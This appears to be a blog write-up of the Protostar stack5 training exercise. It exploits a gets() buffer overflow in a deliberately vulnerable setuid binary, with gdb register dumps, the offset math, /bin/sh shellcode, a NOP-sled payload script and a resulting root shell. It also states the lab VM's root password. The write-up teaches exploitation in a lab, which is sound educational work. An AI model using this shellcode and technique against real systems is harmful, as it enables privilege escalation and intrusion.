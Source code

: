 ```yaml
---
layout: post
title:  "Protostar stack5 challenge"
date:   2018-04-14 23:37:36 +0530
categories: exploit-exercises protostar stack5
---
```



Buffer overflow attack [Stack5][stack-5] but here we are not given a win free function to direct control to unlike previous challenges.
So we will have to create and use our own shell code which should be called upon execution of the program.
{% highlight cpp %}
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>
int main(int argc, char **argv) {
  char buffer[64];
  gets(buffer);
}
{% endhighlight %}

As usual `gets` is the vulnerable function here.
As seen from `stack4` exercise, first we need to find where RET return address is located in main.
Let us first see main's disassembly
{% highlight nasm %}
$ gdb /opt/protostar/bin/stack5
(gdb) set disassembly-flavor intel
(gdb) disassemble main
Dump of assembler code for function main:
0x080483c4 <main+0>:    push   ebp
0x080483c5 <main+1>:    mov    ebp,esp
0x080483c7 <main+3>:    and    esp,0xfffffff0
0x080483ca <main+6>:    sub    esp,0x50
0x080483cd <main+9>:    lea    eax,[esp+0x10]
0x080483d1 <main+13>:   mov    DWORD PTR [esp],eax
0x080483d4 <main+16>:   call   0x80482e8 <gets@plt>
0x080483d9 <main+21>:   leave
0x080483da <main+22>:   ret
End of assembler dump.
{% endhighlight %}

`$ebp` is base pointer. `$esp` is stack pointer which points to top of stack
When a new function is called, the calling function `$ebp` is pushed onto the stack.
Then new `$ebp` points to current `$esp`.
{% highlight nasm %}0x080483c4 <main+0>:    push   ebp{% endhighlight %}
{% highlight nasm %}0x080483c5 <main+1>:    mov    ebp,esp{% endhighlight %}
Then space for local variables is created.
Also `$eip`(not seen here) points to current instruction pointer, ie the current
instruction being executed.
The RET address(where control should return after exiting main commonly
some C library) is stored just after where `$ebp` is stored.

We add few break points and then run program to see value of various registers.
{% highlight nasm %}
(gdb) b *0x080483c4
Breakpoint 1 at 0x80483c4: file stack5/stack5.c, line 7.
(gdb) b *0x080483d4
Breakpoint 2 at 0x80483d4: file stack5/stack5.c, line 10.
(gdb) b *0x080483d9
Breakpoint 3 at 0x80483d9: file stack5/stack5.c, line 11.
{% endhighlight %}
{% highlight nasm %}
(gdb) r
Starting program: /opt/protostar/bin/stack5

Breakpoint 1, main (argc=1, argv=0xbffffd74) at stack5/stack5.c:7
7       stack5/stack5.c: No such file or directory.
        in stack5/stack5.c
(gdb) info r
eax            0xbffffd74       -1073742476
ecx            0x698c084a       1770784842
edx            0x1      1
ebx            0xb7fd7ff4       -1208123404
esp            0xbffffccc       0xbffffccc
ebp            0xbffffd48       0xbffffd48
esi            0x0      0
edi            0x0      0
eip            0x80483c4        0x80483c4 <main>
eflags         0x200246 [ PF ZF IF ID ]
cs             0x73     115
ss             0x7b     123
ds             0x7b     123
es             0x7b     123
fs             0x0      0
gs             0x33     51
{% endhighlight %}


We hit first breakpoint before the first instruction.
Here we see $ebp has `0xbffffd78`. This is `$ebp` value of caller
 which will be now pushed to stack. {% highlight nasm %}(0x080483c4 <main+0>:    push   ebp)

(gdb) c
Continuing.

Breakpoint 2, 0x080483d4 in main (argc=1, argv=0xbffffd74) at stack5/stack5.c:10
10      in stack5/stack5.c
(gdb) infor
Undefined command: "infor".  Try "help".
(gdb) info r
eax            0xbffffc80       -1073742720
ecx            0x698c084a       1770784842
edx            0x1      1
ebx            0xb7fd7ff4       -1208123404
esp            0xbffffc70       0xbffffc70
ebp            0xbffffcc8       0xbffffcc8
esi            0x0      0
edi            0x0      0
eip            0x80483d4        0x80483d4 <main+16>
eflags         0x200282 [ SF IF ID ]
cs             0x73     115
ss             0x7b     123
ds             0x7b     123
es             0x7b     123
fs             0x0      0
gs             0x33     51
{% endhighlight %}
This is break just before calling gets(buffer).
Here we see $ebp is 0xbffffcc8. This was due to {% highlight nasm %}(mov    ebp,esp)`{% endhighlight %}
and is basically where callers $ebp is stored.
In Intel architecture, the address of buffer is saved to top of stack $esp just before calling func.
So `$esp` points to buffer location ie `$esp` contain the location of buffer.
{% highlight nasm %}
(gdb) x/x $esp
0xbffffc70:     0xbffffc80
{% endhighlight %}
That means buffer is located as 0xbffffc80.

Since `gets` would start input from this address, we attempt to overflo this buffer just
so that `RET` is overwritten with our shellcode location. And when control returns from
main our shellcode is executed.
Since `RET` is after `$ebp`, start of `RET` is `$ebp+4`
So we need to overwrite dummy chars upto `RET` ie `startRET - startbuffer`
ie `0xbffffcc8 + 4 - 0xbffffc80 = 76(base 10)`

To test this, in a separate terminal, rerun with this as input

{% highlight nasm %}
$  perl -e 'print "A"x76 . "\xEF\xBE\xAD\xDE"' > temp.txt
(gdb) r < /home/user/temp.txt
Starting program: /opt/protostar/bin/stack5 < /home/user/temp.txt

Program received signal SIGSEGV, Segmentation fault.
0xdeadbeef in ?? ()
(gdb) info r
eax            0xbffffc80       -1073742720
ecx            0xbffffc80       -1073742720
edx            0xb7fd9334       -1208118476
ebx            0xb7fd7ff4       -1208123404
esp            0xbffffcd0       0xbffffcd0
ebp            0x41414141       0x41414141
esi            0x0      0
edi            0x0      0
eip            0xdeadbeef       0xdeadbeef
eflags         0x210246 [ PF ZF IF RF ID ]
cs             0x73     115
ss             0x7b     123
ds             0x7b     123
es             0x7b     123
fs             0x0      0
gs             0x33     51
{% endhighlight %}
We see `$eip` which is the return pointer is overwritten as `0xdeadbeef` and we get `SIGSEGV`.
So we have 76 chars before `RET` where we can store our shell code or we can also store it after `RET`.
We will try to store it before `RET`.

First we begin by creating shell-code which would spawn a shell.
I used this link to get shell-code. [shellcode5.html][shellcode5]. 
There are multiple tutorials available on how to write shell code which can be referenced.

{% highlight nasm %}
;shellex.asm
[SECTION wtext write]

global _start


;shellex.asm
section wtext write

global _start


_start:
    xor eax, eax
    mov al, 70                    ; setreuid is syscall 70
    xor ebx, ebx
    xor ecx, ecx
    int 0x80

    jmp short    mycall           ; Immediately jump to the call instruction

    shellcode:
        pop        ecx                ; Store the address of "/bin/sh" in ESI
        xor        eax, eax           ; Zero out EAX
        mov byte   [ecx + 7], al      ; Write the null byte at the end of the string

        mov dword  [ecx + 8],  esi    ; [ecx+8], i.e. the memory immediately below the string
                                      ;   "/bin/sh", will contain the array pointed to by the
                                      ;   second argument of execve(2); therefore we store in
                                      ;   [ecx+8] the address of the string...
        mov dword  [ecx + 12], eax    ; ...and in [ecx+12] the NULL pointer (EAX is 0)
        mov        al,  0xb           ; Store the number of the syscall (11) in EAX
        lea        ebx, [ecx]         ; Copy the address of the string in EBX
        lea        edx, [ecx + 12]    ; Third argument to execve(2) (NULL pointer)
        lea        ecx, [ecx + 8]     ; Second argument to execve(2)
        int        0x80               ; Execute the system call

    mycall:
        call       shellcode          ; Push the address of "/bin/sh" onto the stack
        db         "/bin/sh"
{% endhighlight %}

Most of the shellcode is same as given in link but i had to add `[SECTION wtext write]`
atop the code. Something to do with make stack section writable as mentioned here.
[Discussion in stackoverflow][so-discussion]

{% highlight nasm %}
nasm -felf get_shell.asm
ld -melf_i386 -o get_shell get_shell.o
./get_shell
{% endhighlight %}
So we get a shell now.
We need to get shell code as hex. Using objdump and regex dump from my SE course
{% highlight shell_session %}
madhurrawat@madhurrawrat-VirtualBox:~/Desktop/shellcode$ objdump -D ./get_shell.o |grep '[0-9a-f]:'|grep -v 'file'|cut -f2 -d:|cut -f1-6 -d' '|tr -s ' '|tr '\t' ' '|sed 's/ $//g'|sed 's/ /\\x/g'|paste -d '' -s |sed 's/^/"/'|sed 's/$/"/g'
"\x31\xc0\xb0\x46\x31\xdb\x31\xc9\xcd\x80\xeb\x18\x59\x31\xc0\x88\x41\x07\x89\x71\x08\x89\x41\x0c\xb0\x0b\x8d\x19\x8d\x51\x0c\x8d\x49\x08\xcd\x80\xe8\xe3\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68"
{% endhighlight %}

So we prepare a python script to prepare payload. `\x90` is ASCII for `NOP`.
{% highlight python %}
#!/usr/bin/env python
offset = 72
shellcode = "\x31\xc0\xb0\x46\x31\xdb\x31\xc9\xcd\x80\xeb\x18\x59\x31 \
\xc0\x88\x41\x07\x89\x71\x08\x89\x41\x0c\xb0\x0b\x8d\x19\x8d\x51\x0c\x8d \
\x49\x08\xcd\x80\xe8\xe3\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68"
nopsled = "\x90" * (offset - len(shellcode))
ret = "\xb0\xfc\xff\xbf"


payload = nopsled + shellcode + "JJJJ" + ret

print payload
{% endhighlight %}

So basically we are overwriting `$ebp` frame pointer with "JJJJ".
nopsled + shellcode should total 72.

But wait why is `RET` here as `0xbffff790`. Shouldn't it be start of our
buffer ie `0xbffffc80`. Well i tried with `RET` as `0xbffffc80` but got `SEG`
Which has something to do with running through `gdb` also taking into buffer some
enviroment variables which change the addresses.

To understand better we try to analyze the core file.
So we login as `root` in protostar. Password for which is `godmode`.
Below we first enable core dumps and then overwrite `RET` with `0xDEADBEEF` to see
at what address buffer writing started.
{% highlight shell_session %}
root@protostar:/# echo 2 > /proc/sys/fs/suid_dumpable
root@protostar:/# cat /proc/sys/kernel/core_pattern
/tmp/core.%s.%e.%p
root@protostar:/# ulimit -c unlimited
root@protostar:/# cd /opt/protostar/bin
root@protostar:/opt/protostar/bin#  perl -e 'print "A"x76 . "\xEF\xBE\xAD\xDE"' | ./stack5
Segmentation fault (core dumped)
root@protostar:/opt/protostar/bin# ls /tmp
core.11.stack5.1817
root@protostar:/opt/protostar/bin# gdb -q -c /tmp/core.11.stack5.1817
{% endhighlight %}
{% highlight nasm %}
Core was generated by `./stack5'.
Program terminated with signal 11, Segmentation fault.
#0  0xdeadbeef in ?? ()

(gdb) info r
eax            0xbffffcb0       -1073742672
ecx            0xbffffcb0       -1073742672
edx            0xb7fd9334       -1208118476
ebx            0xb7fd7ff4       -1208123404
esp            0xbffffd00       0xbffffd00
ebp            0x41414141       0x41414141
esi            0x0      0
edi            0x0      0
eip            0xdeadbeef       0xdeadbeef
eflags         0x10246  [ PF ZF IF RF ]
cs             0x73     115
ss             0x7b     123
ds             0x7b     123
es             0x7b     123
fs             0x0      0
gs             0x33     51
{% endhighlight %}

Ok. so we overwrote `RET` properly coz `$eip` is `0xdeadbeef`.
Further we examine are where we wrote A 76 times
{% highlight nasm %}
(gdb) x/30x $esp-96
0xbffffca0:     0xbffffcb0      0xb7ec6165      0xbffffcb8      0xb7eada75
0xbffffcb0:     0x41414141      0x41414141      0x41414141      0x41414141
0xbffffcc0:     0x41414141      0x41414141      0x41414141      0x41414141
0xbffffcd0:     0x41414141      0x41414141      0x41414141      0x41414141
0xbffffce0:     0x41414141      0x41414141      0x41414141      0x41414141
0xbffffcf0:     0x41414141      0x41414141      0x41414141      0xdeadbeef
0xbffffd00:     0x00000000      0xbffffda4      0xbffffdac      0xb7fe1848
0xbffffd10:     0xbffffd60      0xffffffff
{% endhighlight %}
So we see in coredumps buffer is starting from `0xbffffcb0`.
Since we will be starting from `0xbffffcb0` our RET should now point to it, ie
beginning of our shell code.

{% highlight shell_session %}
$ python pwn5.py > payload5
$  (cat payload5; cat) | /opt/protostar/bin/stack5

id
uid=0(root) gid=1001(user) groups=0(root),1001(user)
whoami
root
{% endhighlight %}

So we successfully spawned a shell as root.
One thing to note. We could spawn a shell as root coz this is a setuid program.
Or else we would have got shell as a normal user.

[stack-5]:https://exploit-exercises.com/protostar/stack5/
[shellcode5]:http://www.kernel-panic.it/security/shellcode/shellcode5.html
[so-discussion]:https://chat.stackoverflow.com/rooms/91636/discussion-between-jester-and-czifro
[core-need]:https://github.com/flankerhqd/protostar-solutions/blob/master/Stack%205/stack5.txt